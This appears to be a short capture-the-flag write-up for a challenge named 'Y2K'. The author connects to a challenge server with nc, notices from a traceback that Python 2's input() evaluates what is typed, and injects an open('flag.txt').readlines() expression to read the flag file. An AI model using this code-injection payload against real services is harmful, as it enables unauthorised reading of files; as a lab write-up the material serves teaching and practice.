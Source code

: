 ## Y2K

For this challenge we're given a tcp to connect when we connect we're presented with a prompt looking for input. 

My first thought was to try and overflow a buffer? 

```
nc challenge.ctf.games 31754
What year do YOU think the world will end?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Traceback (most recent call last):
  File "/home/challenge/server.py", line 4, in <module>
    end = input()
  File "<string>", line 1, in <module>
NameError: name 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' is not defined
```

But what's this...
That looks like a python error and more so it looks like it's trying to execute our input. 

Ok, let's see if we can read a file off the file systems

```
$ /c/Program\ Files\ \(x86\)/Nmap/ncat challenge.ctf.games 31754
What year do YOU think the world will end?
open("flag.txt", "r").readlines()
Yeah! I agree with you! I also think the world will end in the year
['flag{we_are_saved_from_py2_k}']
```

Bingo!